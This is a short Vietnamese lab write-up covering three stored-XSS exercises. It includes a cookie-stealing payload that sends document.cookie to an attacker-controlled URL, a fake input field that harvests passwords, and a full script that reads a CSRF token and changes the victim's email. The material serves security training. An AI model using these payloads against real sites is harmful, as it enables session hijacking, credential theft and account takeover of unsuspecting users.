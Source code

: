 ## LAB22 - Khai thác XSS để lấy cắp cookie 

Lab này xảy ra Stored XSS trong phần comment. Để lấy cắp được cookie thì chỉ cần fetch tới 1 domain do attacker dựng sẵn là được. 

Dùng payload như sau => `<script>fetch("http://url/?c="+document.cookie)</script>`

![image](https://hackmd.io/_uploads/HyaNc_kDlx.png)

## LAB23 - Khai thác XSS để lấy cắp password 

Lab này dính XSS ở chức năng comment. Do nó hiển thị trong phần comment thông qua thẻ `<p>` nên khi mình nhập 1 thẻ `<input>` thì nó vẫn render. 

![image](https://hackmd.io/_uploads/r1vq6d1wel.png)

Cho nên để lấy được password thì chỉ cần giả mạo ô nhập sau đó gửi về qua domain do attacker đã dựng sẵn. 

![image](https://hackmd.io/_uploads/HkgbJFkPle.png)

Sau khi người dùng bị lừa nhấp và điền thông tin thì nhấp ra ngoài thì sự kiện onchange sẽ trigger. 

![image](https://hackmd.io/_uploads/rJWDgY1Dgl.png)

## LAB24 - Khai thác XSS dẫn dến CSRF 

Lab này dính XSS ở phần comment, mình sẽ khai thác XSS để người dùng đến thì gửi đến endpoint thay đổi email.
Sau khi login thì sẽ nhận được 1 csrf. 

![image](https://hackmd.io/_uploads/ryGtEY1Deg.png)
 
Thử kiểm chứng với payload đơn giản `<script>alert(origin)</script>` 

![image](https://hackmd.io/_uploads/HyA04tywel.png)

Sau đó thực hiện payload sau: 
```
<script>
	var x = new XMLHttpRequest;
	x.open('GET', '/my-account');
	x.onload = function () {
		var csrfToken = this.responseText.match(/name="csrf" value="(.*)">/)[1];
		fetch('/my-account/change-email', {
		method: 'POST',
		mode: 'no-cors',
		headers:{
		'Content-Type': 'application/x-www-form-urlencoded'
		},    
		body: new URLSearchParams({
			'email': 'test@gmail.com',
			'csrf': csrfToken
		})
	});
	}
	x.send();
</script>
```
